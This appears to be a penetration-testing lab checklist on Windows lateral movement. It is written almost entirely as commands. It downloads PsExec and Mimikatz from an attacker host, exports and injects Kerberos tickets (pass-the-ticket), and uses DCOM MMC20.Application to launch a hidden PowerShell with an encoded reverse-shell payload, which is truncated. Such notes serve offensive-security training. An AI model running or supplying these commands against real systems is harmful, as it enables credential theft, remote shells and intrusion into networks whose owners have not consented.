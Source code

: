 ```
net use \\files04

klist

iwr -uri http://192.168.45.xxx/PsExec.exe \\files04 cmd
.\PsExec.exe \\files04 cmd

hostname # should show files04
```
- [ ] Pass the Ticket
```
iwr -uri http://192.168.45.xxx/Mimikatz.exe -Outfile Mimikatz.exe
.\Mimikatz.exe
sekurlsa::tickets /export
dir *.kirbi # view newly created tickets
kerberos::ptt [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi # inject ticket thru mimikatz

klist

ls \\web04\backup
```
- [ ] Attempt DCOM lateral movement technique to spawn rvsh in kali
```
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.xxx.xxx"))

dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALg...","7")
```
